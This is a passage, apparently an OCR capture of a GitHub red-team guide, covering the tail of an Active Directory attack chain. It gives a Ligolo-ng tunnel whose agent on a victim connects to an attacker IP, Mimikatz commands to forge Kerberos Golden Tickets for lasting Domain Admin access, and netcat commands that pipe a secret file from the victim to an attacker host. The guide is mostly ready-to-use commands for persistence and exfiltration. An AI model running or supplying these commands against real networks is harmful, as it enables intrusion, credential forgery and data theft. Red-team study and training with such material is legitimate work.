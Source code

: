 Commands:
```bash
# Start Ligolo proxy server
./proxy -selfcert

# Run Ligolo agent on victim (PowerShell)
agent.exe -connect <attacker_IP>:11601 -ignore-cert

# Add route via Ligolo tunnel
ip route add <target_IP> dev ligolo
```
Tools:

Ligolo-ng

## 🎫 Phase 9 – Golden Ticket Attack (Persistence + Domain Admin)

Context: Forge Kerberos tickets to maintain indefinite Domain Admin access.

Techniques:
- Clear current tickets to avoid conflicts.
- Use Mimikatz to create forged Golden Tickets.

Commands:
```powershell
# Purge existing Kerberos tickets
klist purge

# Generate Golden Ticket in Mimikatz
lsadump::trust /patch
kerberos::golden /user:child-admin /domain:redteam.corp /sid:<SID> /krbtgt:<hash>
```
Tools:

Mimikatz

## 📤 Phase 10 – Data Exfiltration

Context: Find and transfer sensitive files out of the target environment.

Techniques:
- Search for files containing secrets.
- Use netcat for stealthy file transfer.

Commands:
```bash
# Find files with sensitive keywords
find / -type f -iname "*secret*.xml"

# Listen on attacker for incoming file
nc -l -p 1235 > secret.xml

# Send file from victim (PowerShell)
type C:\path\secret.xml | nc <attacker_IP> 1235
```
Tools:
